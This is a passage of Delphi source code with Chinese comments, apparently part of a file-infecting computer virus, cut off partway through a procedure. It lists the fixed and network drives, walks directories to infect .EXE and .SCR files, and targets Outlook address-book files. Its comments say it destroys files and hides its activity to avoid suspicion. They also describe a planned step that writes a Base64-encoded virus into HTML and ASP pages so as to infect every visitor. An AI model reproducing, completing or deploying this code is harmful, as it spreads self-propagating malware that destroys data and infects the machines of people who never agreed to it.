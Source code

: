 获得可写的驱动器列表

```
{ 获得可写的驱动器列表 }
function GetDrives: string;
var
  DiskType: Word;
  D: Char;
  Str: string;
  i: Integer;
begin
  for i := 0 to 25 do //遍历26个字母
  begin
    D := Chr(i + 65);
    Str := D + ':';
    DiskType := GetDriveType(PChar(Str));
    //得到本地磁盘和网络盘
    if (DiskType = DRIVE_FIXED) or (DiskType = DRIVE_REMOTE) then
      Result := Result + D;
  end;
end;
```

遍历目录，感染和摧毁文件

```
{ 遍历目录，感染和摧毁文件 }
procedure LoopFiles(Path, Mask: string);
var
  i, Count: Integer;
  Fn, Ext: string;
  SubDir: TStrings;
  SearchRec: TSearchRec;
  Msg: TMsg;
  function IsValidDir(SearchRec: TSearchRec): Integer;
  begin
    if (SearchRec.Attr <> 16) and  (SearchRec.Name <> '.') and
      (SearchRec.Name <> '..') then
      Result := 0 //不是目录
    else if (SearchRec.Attr = 16) and  (SearchRec.Name <> '.') and
      (SearchRec.Name <> '..') then
        Result := 1 //不是根目录
    else Result := 2; //是根目录
  end;
begin
  if (FindFirst(Path + Mask, faAnyFile, SearchRec) = 0) then
  begin
    repeat
      PeekMessage(Msg, 0, 0, 0, PM_REMOVE); //调整消息队列，避免引起怀疑
      if IsValidDir(SearchRec) = 0 then
      begin
        Fn := Path + SearchRec.Name;
        Ext := UpperCase(ExtractFileExt(Fn));
        if (Ext = '.EXE') or (Ext = '.SCR') then
        begin
          InfectOneFile(Fn); //感染可执行文件        
        end
        else if (Ext = '.HTM') or (Ext = '.HTML') or (Ext = '.ASP') then
        begin
          //感染HTML和ASP文件，将Base64编码后的病毒写入
          //感染浏览此网页的所有用户
          //哪位大兄弟愿意完成之？
        end
        else if Ext = '.WAB' then //Outlook地址簿文件
        begin
```